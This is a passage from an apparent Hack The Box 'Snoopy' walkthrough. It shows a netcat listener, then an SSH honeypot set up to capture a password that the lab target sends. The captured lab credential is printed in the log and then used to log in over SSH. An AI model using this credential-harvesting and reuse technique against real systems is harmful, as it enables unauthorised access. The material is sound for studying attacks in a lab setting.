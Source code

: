 ![](/assets/obsidian/83e7daf36909f3e19c13bad396da9a69.png)

Listen on port `2222` and see what it does

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.70.10] 55498
SSH-2.0-paramiko_3.1.0
```

It sent ssh request, I'll setup a honeypot to capture credentials

> https://github.com/qeeqbox/honeypots

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ source ~/venv-py3.8/bin/activate

┌──(venv-py3.8)─(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ honeypots --setup ssh:2222 --options capture_commands
```

Result :

```bash
{"action": "connection", "dest_ip": "0.0.0.0", "dest_port": "2222", "server": "ssh_server", "src_ip": "10.129.70.10", "src_port": "35846", "timestamp": "2023-09-22T17:43:19.643479"}
{"action": "login", "dest_ip": "0.0.0.0", "dest_port": "2222", "password": "sn00pedcr3dential!!!", "server": "ssh_server", "src_ip": "10.129.70.10", "src_port": "35846", "status": "failed", "timestamp": "2023-09-22T17:43:20.803555", "username": "cbrown"}
```

SSH as `cbrown`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ cssh cbrown@snoopy.htb 'sn00pedcr3dential!!!'
Warning: Permanently added 'snoopy.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
cbrown@snoopy:~$ id
uid=1000(cbrown) gid=1000(cbrown) groups=1000(cbrown),1002(devops)
cbrown@snoopy:~$ cat user.txt
cat: user.txt: No such file or directory
```